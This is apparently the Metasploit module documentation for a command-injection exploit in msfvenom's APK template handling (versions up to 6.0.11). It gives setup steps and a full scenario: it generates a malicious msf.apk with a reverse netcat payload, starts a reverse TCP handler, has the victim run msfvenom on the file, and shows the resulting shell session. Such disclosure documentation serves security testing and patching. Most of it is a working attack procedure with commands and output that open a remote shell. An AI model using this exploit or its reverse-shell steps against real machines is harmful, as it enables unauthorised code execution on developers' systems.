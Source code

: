 ## Vulnerable Application

Metasploit Framework's `msfvenom` is vulnerable to a command injection
vulnerability when the user provides a crafted APK file to use as an Android
payload template. A "template" file in this context is an existing APK file,
within which an Android payload will be embedded.

The vulnerability affects Metasploit Framework <= 6.0.11 and Metasploit Pro <=
4.18.0

A copy of the vulnerable software can be obtained by:

* Using an old installer (e.g. <https://github.com/rapid7/metasploit-framework/releases/tag/6.0.11>); or
* Setting up a dev environment (see <http://r-7.co/MSF-DEV>) and doing `git checkout 6.0.11`

Note that the vulnerable code depends upon the `apktool`, `zipalign` and
`jarsigner` tools. That is, regardless of the vulnerability, `msfvenom` needs
these binaries on the PATH for it to even support APK templates.

Attempting to use `msfvenom` without these dependencies being installed:

```
% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: apktool not found. If it's not in your PATH, please add it.
```

These dependencies are available in Debian's standard repos with `jarsigner`
being provided by `openjdk`.

```
% sudo apt update && sudo apt install apktool zipalign default-jdk-headless
<... SNIP ...>

% msfvenom -p android/meterpreter/reverse_tcp -x /dev/null -o /dev/null
Using APK template: /dev/null
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
Error: undefined method `[]' for nil:NilClass
```

The environment is now ready.

## Verification Steps

1. Install the vulnerable application
2. Start `msfconsole`
3. Do: `use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.apk` file to the machine running the vulnerable application
8. On the victim machine, do `msfvenom -p android/meterpreter/reverse_tcp -x msf.apk`
9. You should get a shell

Note: Due to the nature of the vulnerability, `bash` payloads are unlikely to
work. If you attempt to use them you will get a warning message when doing
`exploit`.

```
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[!] Warning: bash payloads are unlikely to work
[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

## Options

* `FILENAME` - the name of the APK file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### Metasploit Framework v6.0.11

Generate the APK file

```
msf > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[+] msf.apk stored at /home/justin/.msf4/local/msf.apk
```

Start a handler

```
msf exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 172.18.0.3
LHOST => 172.18.0.3
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.18.0.3:4444
```

As the victim, use `msfvenom` to generate an Android payload using the
generated file as a template

```
% ./msfvenom -p android/meterpreter/reverse_tcp -x /home/justin/.msf4/local/msf.apk -o /dev/null
Using APK template: /home/justin/.msf4/local/msf.apk
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
[*] Creating signing key and keystore..
[*] Decompiling original APK..
[*] Decompiling payload APK..
Error: No such file or directory @ rb_sysopen - /tmp/d20201025-4916-ewjqfp/original/AndroidManifest.xml
```

A shell session will be opened

```
[*] Command shell session 1 opened (172.18.0.3:4444 -> 172.18.0.3:56220) at 2020-10-25 22:13:43 +1100

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```
